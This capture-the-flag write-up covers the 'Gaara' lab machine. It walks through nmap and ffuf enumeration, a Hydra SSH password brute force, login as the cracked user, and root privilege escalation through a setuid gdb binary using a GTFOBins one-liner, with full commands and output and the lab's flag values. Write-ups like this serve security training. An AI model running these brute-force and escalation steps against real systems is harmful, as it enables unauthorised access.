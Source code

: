 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Enumeration

### NMAP scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -T5 -Pn -A -p- 192.168.205.142
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-02 13:54 IST
Warning: 192.168.205.142 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.205.142
Host is up (0.073s latency).
Not shown: 62577 closed tcp ports (conn-refused), 2956 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.91 seconds
```

There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

### Web enumeration

Let's visit the web server through our browser.

![1](https://github.com/Kunull/Write-ups/assets/110326359/54c15681-c889-4f61-baac-2cb77914a936)

Nothing useful, just a picture of the anime character [Gaara](https://en.wikipedia.org/wiki/Gaara).

### Directory brute forcing

We can use `ffuf` to brute force the web directories on the web server.

```
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.205.142:80/FUZZ | grep "Status: 200"
________________________________________________

Cryoserver              [Status: 200, Size: 327, Words: 1, Lines: 303, Duration: 75ms]
:: Progress: [220560/220560] :: Job [1/1] :: 546 req/sec :: Duration: [0:10:12] :: Errors: 0 ::
```

If we visit the `/Cryoserver` page, we can find the following information.

![4](https://github.com/Kunull/Write-ups/assets/110326359/f6d40651-cb2d-498d-bc72-f2e0edda2ed7)

So, there are three other directories.

However, all of these include some story regarding the [Gaara](https://en.wikipedia.org/wiki/Gaara) character and serve asrabit holes.


## Exploitation

### Brute forcing SSH password

Now that we know the machine is based on [Gaara](https://en.wikipedia.org/wiki/Gaara), we can assume that there must be a `gaara` user.

Let's brute force the passwords for this `gaara` user.

```
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.205.142
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-02 14:08:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.205.142:22/
[STATUS] 115.00 tries/min, 115 tries in 00:01h, 14344286 to do in 2078:53h, 14 active
[22][ssh] host: 192.168.205.142   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-02 14:10:57
```

| Username | Password  |
| -------- | --------- |
| gaara    | iloveyou2 |

### Logging in through SSH

```
$ ssh gaara@192.168.205.142
The authenticity of host '192.168.205.142 (192.168.205.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.142' (ED25519) to the list of known hosts.
gaara@192.168.205.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ 
```


## Post Exploitation
### local.txt

Let's `cat` the `local.txt` flag.

```
gaara@Gaara:~$ cat local.txt
c728c520ab0c97b7ea9820a1b73a0254
```

### Privilege escalation

We can use the `find` command to search for files on the system where the `setuid` bit is set.

```
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins](https://gtfobins.github.io) to search for an exploit for the `gdb` utility. 

![3](https://github.com/Kunull/Write-ups/assets/110326359/c41f68aa-fc93-40df-8122-a59d21ea374a)

Since we want a Bash shell, we have to modify the exploit slightly.

```
gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
```

```
gaara@Gaara:~$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
sh-5.0# whoami
root
```

### proof.txt

We can now `cat` the `proof.txt` flag.

```
sh-5.0# cat /root/proof.txt
2c39a99c3217a56762321da6bf9860b3
```
